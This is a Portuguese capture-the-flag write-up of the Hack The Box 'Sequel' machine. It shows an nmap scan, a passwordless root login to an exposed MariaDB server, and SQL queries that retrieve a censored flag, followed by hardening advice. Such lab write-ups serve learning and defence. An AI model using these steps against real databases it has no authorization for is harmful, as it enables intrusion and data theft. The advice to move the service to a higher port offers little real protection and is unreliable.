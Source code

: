 ## HTB: Sequel
### 📋 Informações da Máquina

 - Plataforma: Hack the Box
 - Máquina: Sequel
 - Dificuldade: Muito Fácil
 - Ip: 10.129.x.x


## ⚙️ 0. Resumo
A maquina já é da TIER 2 dos Starting Points, essa ela usa um server MySql na versão MariaDB, o objetivo é ter o acesso remoto root do banco e achar a flag

### ⚠️ 0.1 VULNERABILIDADES IDENTIFICADAS

- Ausência de Autenticação como ROOT
- 
- Serviço Exposto na rede

## 🔍 1. ENUMERAÇÃO
### 1.1 Varredura de Portas

Eu não sabia qual era a porta que estaria o serviço, então decidi escanear um número alto de portas

```bash
sudo nmap -sS -sV -p 1-6379 10.129.x.x
```

📊 Resultado:

```bash
PORT     STATE SERVICE VERSION
3306/tcp open  mysql
``` 

✅ Conclusão: Server MySql encontrado aberto na porta 3306


## ⚡ 2. EXPLORAÇÃO
### 2.1 Conexão com o MySQL

Foi bem fácil na real, ja que o server não tinha autenticação com senha, mas tive que colocar " --skip-ssl"
pois tava dando erro sem isso

```bash
mysql --skip-ssl -u root -h 10.129.x.x
```

### 2.2 Enumeração de Dados

Dentro do MySql, usei comandos para explorar o servidor:

```bash
SHOW DATABASES;
```

🎯 Resultado:

```bash
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
```

### 2.3 Procurando a Flag
Eu fui procurar a flag no banco de dados "htb", para selecionar ele usei:

```bash
 USE htb;
```

e depois usei para ver as tabelas dentro dele:

```bash
SHOW TABLES;
```

🎯 Resultado:

```bash
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```


### 2.3 Captura da Flag

Após achar essas duas tabelas, eu fui na config, pq achei que era a com mais chance de ter alguma coisa, ent usei


```bash
SELECT * FROM config;
```

🎯 Resultado:

```bash
+---------------+
| config |
+---------------------------+
| flag          | {.......} |
+---------------------------+
```
*OBS: Censurei a flag!

## 🛡️ 3. RECOMENDAÇÕES DE SEGURANÇA

- 1. Configurar senha para usuário e usuário ROOT

- 2. Não deixar o serviço aberto e exposto na rede

- 3. Colocar o serviço em uma porta mais alta para dificultar o scan de portas


## 🎯 4. CONCLUSÃO
### 4.1 Resumo do Ataque:

- Complexidade: Baixa

- Impacto: Critíco (Usuário ROOT adquirido)

#### 4.2 Lições Aprendidas:

  1. Sempre coloque senha, e tbm que seja uma senha boa

  2. Não deixe qualquer serviço exposto, tente sempre dificultar o reconhecimento dele

  3. Aprendi a se movimentar em um banco de dados MySql no prompt


### 🧠 Reflexão Pessoal:

"MySQL é um serviço muito usado ainda em muitos sites e aplicações, se você não tiver a devida configuração, alguém que invadir o serviço exposto, pode roubar e deletar todos os bancos de dados hospedados, então sempre coloque senha e proteja seus serviços."

✅ Máquina Finalizada com Sucesso!

Write-up por: Luiz A. | Hack The Box - Sequel | 25/10/25
